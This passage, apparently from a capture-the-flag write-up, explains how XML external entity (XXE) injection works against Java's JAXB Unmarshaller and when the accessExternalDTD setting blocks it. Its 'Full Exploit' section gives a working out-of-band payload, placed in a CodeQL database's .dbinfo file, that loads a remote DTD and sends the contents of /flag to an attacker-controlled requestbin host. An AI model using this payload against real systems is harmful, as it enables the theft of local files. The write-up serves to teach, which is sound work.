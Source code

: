 The `javax.xml.bind.Unmarshaller` class is part of the Java API for XML Binding (JAXB), which is not vulnerable to XXE by default in newer versions [^name-hint], as far as I know. So if we run this simplified code that uses `javax.xml.bind.Unmarshaller` to parse an XML file with XXE, it will not work:

```java
public class Main {
    public static void main(String[] args) throws Exception {
        String xxeString = "<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///flag\">]><foo>&xxe;</foo>";
        InputStream input = new ByteArrayInputStream(xxeString.getBytes("UTF-8"));
        JAXBContext context = JAXBContext.newInstance(String.class);
        Unmarshaller unmarshaller = context.createUnmarshaller();
        System.out.println(unmarshaller.unmarshal(new StreamSource(input), String.class).getValue());
    }
}
```

and fail with an exception:

```
javax.xml.bind.UnmarshalException
    at [SNIP]
Caused by: org.xml.sax.SAXParseException: External Entity: Failed to read external document 'flag', because 'file' access is not allowed due to restriction set by the accessExternalDTD property.
    at [SNIP]
    at com.example.Main.main (Main.java:18)
```

[^name-hint]:
    That's probably the reason why this challenge is called "Protected-by-Java-SE":
    `javax.xml.accessExternalDTD=all` is NOT set to `all` by default in newer versions of Java and therefore this is "protected" by Java SE.

If we run the same code with the `-Djavax.xml.accessExternalDTD=all` JVM option, it will work and print the contents of the `/flag` file:

```
rwctf{fake_flag}
```

### Full Exploit

For a full exploit, we'd replace a `.dbinfo` file in an existing (old) CodeQL database with this XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foobar SYSTEM "https://requestbin.internal/dQw4w9WgXcQ">
```

where the `https://requestbin.internal/dQw4w9WgXcQ` URL is a requestbin URL that we control and that returns this content:

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://requestbin.internal/dQw4w9WgXc/%file;'>">
%eval;
%exfil;
```


[^commit_that_removes_it]: The commit that removes the XXELocal.ql query is [here](https://github.com/github/codeql/commit/93988e5834ba51739287a9d0f390be473fcaea70).